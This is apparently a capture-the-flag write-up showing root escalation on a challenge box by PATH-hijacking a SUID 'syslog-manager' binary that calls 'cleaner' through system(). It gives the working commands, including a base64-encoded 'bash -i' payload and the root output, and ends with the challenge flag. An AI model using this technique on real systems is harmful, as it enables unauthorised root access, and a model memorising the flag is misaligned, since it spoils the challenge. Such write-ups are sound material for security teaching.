 After getting shell on the box and enumeration, you will find a custom SUID binary.

```
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/app$ find / -perm -4000 2>/dev/null
...[SNIP]...
/usr/bin/syslog-manager
```
You have a couple of subcommands to read and write to `/var/log/syslog.log`.

For the next step, you need to transfer the binary to your host for reversing.
TLDR: It's a simple switch case that handles which subcommand to call, and does operations on `/var/log/syslog.log`. The interesting subcommand to us is `syslog-manager clean`.
The `local_1018` buffer is used to construct a command string and then called with system. Since `cleaner` is not an actual binary on the machine, and an absolute path is not used, we can create our own `cleaner` and call `syslog-manager clean` to call `system` with our command.

To exploit, you can use a path injection so that `cleaner` resolves to your filepath. I just used a `bash -i` payload here for `cleaner`. 
```bash
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ export PATH="/dev/shm:$PATH"
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ echo IyEvYmluL2Jhc2gKCmJhc2ggLWkK | base64 -d > cleaner
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ chmod +x cleaner
ctfplayer@ctf-tickets-app-user-70bd894a8de0d40c-5d7fd9cc6d-gqmzs:/dev/shm$ syslog-manager clean
root
```
Flag: `brunner{sl1pp3d_p4st_s3cur17y_4nd_g0t_b4cks74g3_4cc3ss}`

Solved by: benkyou
